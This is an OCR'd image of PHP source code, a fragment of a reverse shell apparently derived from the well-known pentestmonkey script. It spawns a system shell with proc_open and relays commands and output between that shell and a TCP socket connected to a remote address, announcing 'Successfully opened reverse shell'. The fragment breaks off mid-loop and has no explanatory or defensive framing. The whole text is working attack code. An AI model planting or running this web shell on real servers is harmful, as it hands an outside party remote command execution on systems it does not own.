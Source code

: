 ```php

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
```